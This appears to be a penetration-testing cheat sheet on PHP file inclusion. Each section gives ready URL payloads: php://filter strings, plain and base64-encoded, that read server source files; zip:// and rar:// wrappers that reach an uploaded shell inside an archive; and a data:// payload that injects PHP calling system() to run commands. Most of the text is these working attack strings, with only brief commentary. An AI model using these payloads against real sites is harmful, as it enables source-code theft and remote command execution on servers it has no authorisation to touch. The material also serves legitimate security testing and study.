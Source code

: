 https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion

#### Read PHP files
When enumerating web apps, sometimes you need to look at source code of PHP files but their execution prevents you --
	this allows you to read it
```
# php://filter wrapper summarized

Attempt 1: Clear text
	index.php?file=php://filter/resource=<file> # NO EXTENSION

Attempt 2: Encoded   #sometimes this is necessary
	index.php?file=php://filter/convert.base64-encode/resource=<file> #NO EXTENSION
```

#### Accessing Inside Compressed Files (ZIP and RAR)
Sometimes you may be able to upload files that automatically get compressed to zip or rar format. This wrapper allows you to access the php file within the zip file that you uploaded:
```
# zip wrapper summarized

index.php?page=zip://<path_to_zip_file>/<zip_file>.zip%23<shell> # NO EXTENSION


# rar wrapper summarized

index.php?page=rar://<path_to_rar_file>/<rar_file>.rar%23<shell> # NO EXTENSION
```

#### Embed Data Elements
Sometimes you are able to achieve code execution by embedding data elements
	kinda infrequent
```
# data:// wrapper summarized

index.php?page=data://text/plain,<?php%20echo%20system('<cmd>');?>
```